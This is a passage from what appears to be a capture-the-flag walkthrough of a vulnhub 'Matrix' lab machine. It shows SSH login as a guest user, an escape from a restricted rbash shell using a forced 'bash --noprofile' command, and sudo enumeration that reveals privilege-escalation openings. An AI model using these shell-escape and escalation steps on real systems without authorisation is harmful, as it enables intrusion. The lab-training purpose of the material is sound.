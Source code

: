 ![Desktop View](/assets/img/sample/matrix/4.png)

We already knew ssh is opening on port 6464. Let's login 

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/vulhub/matrix_machine]
└──╼ #ssh guest@192.168.43.104 -p6464
guest@192.168.43.104's password: 
Last login: Thu Jul 30 13:26:55 2020 from 192.168.43.126
guest@matrix:~$ id
-rbash: id: command not found
guest@matrix:~$ ^C
guest@matrix:~$ exit
logout
Connection to 192.168.43.104 closed.
```
Logined Successfully but it's rbash ,we can't run normal command

So use this command to login with bash `ssh guest@192.168.43.104 -p6464 -t "bash --noprofile"`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/vulhub/matrix_machine]
└──╼ #ssh guest@192.168.43.104 -p6464 -t "bash --noprofile"
guest@192.168.43.104's password: 
guest@matrix:~$ sudo -l
User guest may run the following commands on matrix:
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
guest@matrix:~$ 
```
